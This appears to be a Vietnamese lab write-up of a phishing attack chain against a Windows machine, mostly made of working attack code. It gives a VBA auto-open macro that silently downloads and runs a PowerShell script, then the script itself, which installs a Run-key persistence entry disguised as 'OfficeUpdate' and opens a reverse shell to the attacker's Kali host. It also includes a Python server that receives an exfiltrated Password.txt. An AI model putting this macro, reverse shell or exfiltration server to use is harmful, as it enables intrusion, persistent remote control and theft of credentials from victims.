


# Attack Flow

```
                          +----------------------+                         +-----------------------+
                          |                      |                         |                       |
                          |     Kali Linux       |                         |    Windows Target     |
                          |  IP: 192.168.200.132 |                         |  IP: 192.168.200.137  |
                          |                      |                         |                       |
                          +----------+-----------+                         +-----------^-----------+
                                     |                                                 |
                                     |                      ATTACK                     |
                                     |------------------------------------------------>|
```

## Chi tiết:

### 1. Email Phishing

- Attacker gửi email `zip` tới victim


- Giải nén nhận được 1 file `.xlsm`


### 2. Thực thi Macro VBA

- Nội dung đoạn mã:
```VBA
Private Sub Workbook_Open()
    Dim cmd As String
    cmd = "powershell -w hidden -nop -c ""Invoke-WebRequest 'http://192.168.200.132:8000/Test.ps1' -OutFile $env:TEMP\payload.ps1; powershell -ep bypass -f $env:TEMP\payload.ps1"""
    Shell cmd, vbHide
End Sub
```

- Thực hiện tải file độc hại `Test.ps1` từ máy `Kali`, lưu vào thư mục `TEMP` với tên là `payload.ps1` và tiến hành thực thi script

#### Góc nhìn Victim


#### Góc nhìn Attacker
- Nội dung `Test.ps1`
```powershell
$RegPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$Name = "OfficeUpdate"
$Value = "powershell.exe -w hidden -ep bypass -File `"$env:TEMP\payload.ps1`""

if (-not (Get-ItemProperty -Path $RegPath -Name $Name -ErrorAction SilentlyContinue)) {
    try {
        New-ItemProperty -Path $RegPath -Name $Name -Value $Value -PropertyType "String" | Out-Null
    } catch {}
}

$client = New-Object System.Net.Sockets.TCPClient('192.168.200.132',4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
    $data = (New-Object System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}

$client.Close()
```
- Thiết lập `persistent` đồng thời `reverse shell` về máy chủ `Kali`


### 3. Data Exfiltration

- Sau khi thấy được file `Password.txt`, attacker thực hiện mở `POST` method để lấy file về
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class SimpleHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(length)
        with open("Password.txt", "wb") as f:
            f.write(post_data)
        
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"File received successfully")

if __name__ == "__main__":
    server = HTTPServer(("0.0.0.0", 8000), SimpleHandler)
    print("Listening on port 8000...")
    server.serve_forever()
```


- Trích xuất thành công


## Tóm tắt diễn biến

| Step | Attacker Action | Victim Action | Result |
|------|-----------------|---------------|--------|
| 1 | **Email Phishing** – Attacker gửi email `.zip` chứa file `.xlsm` độc hại | Victim tải file về | File độc hại vào máy Victim |
| 2 |  – | Victim giải nén `.zip`, thu được `.xlsm` | File sẵn sàng mở |
| 3 | **Macro Execution** – VBA Macro chứa lệnh tải và chạy script | Victim mở file và enable Macro | PowerShell được khởi chạy ngầm |
| 4 | **Payload Download** – Macro dùng `Invoke-WebRequest` tải `Test.ps1` từ Kali (`192.168.200.132`) | – | File `payload.ps1` lưu tại `%TEMP%` |
| 5 | **Payload Execution** – PowerShell chạy `payload.ps1`| – | Reverse shell kết nối về Attacker và cơ chế `persistent` được thiết lập|
| 6 | **Reverse Shell** – `payload.ps1` tạo kết nối ngược về `Kali`| – | Attacker có shell điều khiển từ xa |
| 7 | **File Discovery** – Attacker dùng shell duyệt thư mục `Documents` tìm thấy `Password.txt` | – | Phát hiện file chứa thông tin nhạy cảm |
| 8 | **Data Exfiltration** – Attacker chạy PowerShell script đọc `Password.txt` và POST về server Kali port 8000 | – | File dữ liệu được gửi thành công sang máy Attacker |
